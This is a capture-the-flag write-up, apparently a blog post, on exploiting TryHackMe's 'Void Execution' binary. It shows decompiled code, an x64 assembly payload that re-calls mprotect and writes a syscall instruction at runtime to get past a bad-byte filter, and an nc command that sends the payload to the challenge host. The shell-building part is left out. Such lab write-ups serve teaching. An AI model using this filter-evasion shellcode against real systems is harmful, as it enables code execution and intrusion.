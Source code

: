 ```yaml
---
layout: post
title: TryHackMe - "Void Execution"
categories: Challenges
tags: red-team pen-testing 
---
```

[Link to the challenge](https://tryhackme.com/room/hfb1voidexecution)

## Intro

This challenge seems simple on the surface, but it's a bit tricky because it requires familiarity with what happens "behind the scenes" at architectural level during binary code execution.

The target program "voidexec" returns a segmentation fault on every user input.

We have the Linux executable file, but we don't have the source code, so we can't easily understand how the program works.

This initial obstacle, however, can reasonably be overcome by using "ghidra" to decompile the executable file and obtain the corresponding assembly code, as well as higher-level C-style code.
The resulting decompiled code is as follows:

    undefined8 main(void)

    {
    char cVar1;
    code *__s;
    
    setup();
    __s = (code *)mmap((void *)0xc0de0000,100,7,0x22,-1,0);
    memset(__s,0,100);
    puts("\nSend to void execution: ");
    read(0,__s,100);
    puts("\nvoided!\n");
    cVar1 = forbidden(__s);
    if (cVar1 != '\0') {
                        /* WARNING: Subroutine does not return */
        exit(1);
    }
    mprotect(__s,100,4);
    (*__s)();
    return 0;
    }

In short, "mmap" function creates a memory segment/buffer of length 100 at absolute address 0xc0de0000.

This segment is populated with user input, using the read function.

The pointer to this buffer is called "__s".
At the end of the "main", we notice that this segment is executed via a function call (the code execution jumps to the segment address).

At first glance, we think the exploit is very simple: simply construct a binary payload with msfvenom and inject it into standard input (by executing "./voidexec < payload.bin").

However, there are two major obstacles.

- The first obstacle is "forbidden" function, which we do not report for simplicity, but which is fundamental, as it blocks the program by returning "forbidden" if any bytes in the memory segment are equal to "0x0f" (or equal to some others special chars like "0xcd"). We remember that "0x0f" comes into play in syscall calls (0x0f05), and so the program rejects all "syscall" based payload: it rejects all evil payloads (since any shell or command we would like to execute requires "syscall" instruction, or other similar instructions, and these instructions are rejected, due to character checking, operated by the forbidden function mentioned above).

- The second obstacle is the function called near the end, just before the memory segment is executed. This function is "mprotect", which in our case makes the segment executable-only (third argument is value 4, PROT_EXEC), and not writable unfortunately. Thus, it is not possible to create encoded payloads to bypass bad character checking, and it is not possible to construct dynamic payloads at runtime (with the purpose of inserting the "syscall" instruction at the end, at runtime).

But there is an hack to resolve these problems!

## Payload development

We want to build a payload that first makes the memory segment writable, so we can insert the "syscall" instruction at runtime.

The trick is to call "mprotect" function again with third argument equal to 7 (permissions "rwx") to make the segment writable.

But how do we do it? Remember that toward the end, execution jumps to our memory segment as if it were a function call, so at runtime, in the current stack frame, as the bottommost element, we find the return address (to the caller, "main").
We fetch it and use it to calculate "mprotect" address, located a little above, and jump to it, obviously after configuring the registers so that the third argument of mprotect function is equal to 7 (rwx).

Now, execution will proceed again, jumping to the memory segment. At this point, we'll execute some instructions to start a shell. After that, at run-time, we'll insert the "syscall" instruction (0x0f05) with a specific argument (3b, "execve") at the end.

Here's the assembly code. We're showing the entire code, except for the shell construction, to avoid giving away too many spoilers. :)

    BITS 64;
    global    _start

    section   .text
    _start: pop r10
            cmp     rbx, 0x1 
            je      shell
            mov     rbx, 0x1
            mov     rax, 0xc0de0000
            mov     rdx, 0x7        ; "rwx" value for mprotect  
            sub     r10, 0x12
            jmp     r10             ; jump to altered ret address (mprotect)
    shell:  
            ; shell building, we don't give spoiler
            ; shell building, we don't give spoiler
            ; shell building, we don't give spoiler
            ; shell building, we don't give spoiler
            ; shell building, we don't give spoiler
            mov al, 0x0e                ; we forge "syscall" (0x0f05) instruction at run-time
            add al, 0x1
            mov ah, 0x05
            lea r10, [rel endlab]       
            add r10, 0x4                ; r10 = endlab addr + 4
            mov word [r10], ax          ; we insert 0x0f05 at address endlab+4 
            jmp endlab
    endlab: mov al, 0x3b
            mov ah, 0x0
            nop
            nop
            nop
            nop
            nop

Next, we compile this code and use it as payload for the target program, obtaining a shell, which allows us to navigate in the server directory and find the flag.

`(cat payload_sh.bin; cat) | nc voidexec.tryhackme.local 9008`